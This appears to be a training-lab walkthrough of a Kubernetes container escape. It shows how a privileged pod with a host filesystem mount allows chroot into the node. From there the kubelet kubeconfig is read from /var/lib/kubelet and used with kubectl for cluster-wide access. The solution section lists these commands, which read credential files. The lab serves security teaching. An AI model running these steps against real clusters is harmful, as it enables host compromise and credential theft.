

# Container escape to access the host system

## Scenario Information

Most of the monitoring, tracing, and debugging software requires to run with extra privileges and capabilities. Here in this scenario, we will see a pod with extra capabilities and privileges including HostPath allows us to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

* To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)



## Scenario Solution

After performing the analysis, we identified that this container has complete privileges of the host system and allowed privilege escalation. As well as `/host-system` is mounted from the host system.

```bash
ls /
ls /host-system/
```


* Gaining the host system privileges access `chroot`

```bash
chroot /host-system bash
docker ps
```


* Accessing the node level kubelet Kubernetes configuration

```bash
cat /var/lib/kubelet/kubeconfig
```


> Download the kubectl locally to use this config and perform operations

* Using the kubelet configuration to perform Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```


* From here we can go beyond by performing the lateral moment and post exploitation

## Miscellaneous

TBD
